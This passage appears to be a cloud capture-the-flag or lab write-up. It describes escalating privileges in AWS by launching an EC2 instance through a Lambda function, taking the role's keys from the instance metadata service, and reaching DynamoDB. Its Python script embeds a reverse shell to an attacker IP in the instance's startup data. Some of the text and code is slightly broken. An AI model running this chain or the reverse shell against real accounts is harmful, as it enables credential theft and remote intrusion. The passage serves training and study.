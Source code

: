 ```
###### ec2_agent_role
#dynamodb
describe-table
list-tables
scan
query
```

### Formulating Attack Chain
- From our enumeration above and reference to [hackingthe.cloud](https://hackingthe.cloud/aws/exploitation/iam_privilege_escalation/), it seems like our compromised user can create an EC2 Instance by making use of the lambda function with which we can get the AWS Access and Secret Key of the role `ec2_agent_role` from `169.254.169.254/metadata/latest` and then get to Dynamo DB with the credentials.

#### Lambda Script to Create EC2 Instance
- The python script below is used to create an EC2 instance with lambda. 
- In this script below, we added an `init_scipt` to tell the 

> `IamInstanceProfile` is very Important here as it is required to get access to the IAM role. Without it, the instance will still be created, but it will not be attached to a role and we will not have this page `/latest/meta-data/iam/`.

>"Open Source" AMI Image Id like Amazon Linux and Ubuntu AMIs are uniformed across all users and we can get it by : 
> 1. Registering an AWS account and look for it at the create EC2 form.
> 2. Referencing [AWS AMI page](https://aws.amazon.com/amazon-linux-ami/) or [Ubuntu Cloud Images page](https://cloud-images.ubuntu.com/locator/ec2/).

```python
import boto3

REGION = 'ap-southeast-1' 
AMI = 'ami-08569b978cc4dfa10'
INSTANCE_TYPE = 't2.micro'
SUBNET_ID = 'subnet-0aa6ecdf900166741'

EC2 = boto3.client('ec2', region_name=REGION)

def lambda_handler(event, context):
    init_script = """#!/bin/bash
                   bash -i >& /dev/tcp/<ip address>/8080 0>&1                
    """

    instance = EC2.run_instances(
        ImageId=AMI,
        InstanceType=INSTANCE_TYPE,
        SubnetId=SUBNET_ID,
        MinCount=1, 
        MaxCount=1,
        TagSpecifications=[{'ResourceType': 'instance','Tags': [{"Key": "agent", "Value": "user-9d084cfc30dc44a8b84e9cfe79007c72"}]}],
        UserData=init_script
        IamInstanceProfile={'Arn': 'arn:aws:iam::051751498533:instance-profile/ec2_agent_instance_profile'},
    )

    print("New instance created.")
    instance_id = instance['Instances'][0]['InstanceId']
    print(instance_id)

    return instance_id
```
